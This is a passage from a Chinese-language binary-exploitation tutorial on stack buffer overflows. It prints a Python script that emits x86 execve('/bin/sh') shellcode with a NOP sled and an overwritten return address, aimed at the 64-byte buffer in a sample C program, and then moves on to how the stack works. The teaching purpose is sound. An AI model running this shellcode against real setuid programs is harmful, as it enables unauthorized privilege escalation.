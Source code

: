 ```python
#!/usr/local/bin/python
import sys
from struct import *

if len(sys.argv) != 2:
	addr = 0x41414141
else:
	addr = int(sys.argv[1], 16)

s  = ""
s += "\x31\xc0\x50\x89\xe0\x83\xe8\x10" # 8
s += "\x50\x89\xe3\x31\xc0\x50\x68\x2f" #16
s += "\x2f\x73\x68\x68\x2f\x62\x69\x6e" #24
s += "\x89\xe2\x31\xc0\x50\x53\x52\x50" #32
s += "\xb0\x3b\xcd\x80\x90\x90\x90\x90" #40
s += "\x90\x90\x90\x90\x90\x90\x90\x90" #48
s += "\x90\x90\x90\x90\x90\x90\x90\x90" #56
s += "\x90\x90\x90\x90\x90\x90\x90\x90" #64
s += "\x90\x90\x90\x90"+pack('<L',addr) #72

sys.stdout.write(s)
```

运行两个程序

![运行两个程序](/img/interestingBin/1489116069190.png)

sample3.c的cpy函数会将输入的字符串原原本本得复制到一块只有64字节得内存空间中。由于字符串是由用户任意输入得，因此exploit.py 的输出结果输入给sample3.c，就能成功地以所有者权限运行`/bin/sh`

#### 栈使用运行空间

栈是一种内存的使用方式，栈并不是一种物理上真实存在的东西，它是普通的内存空间。

**向栈存入数据**

![Alt text](/img/interestingBin/1489119852167.png)
在程序开始运行时，先要确定栈的起点(基地址)。假设栈的起点为bffff6fc(ebp=esp)，bffff6fc已经存在0x01。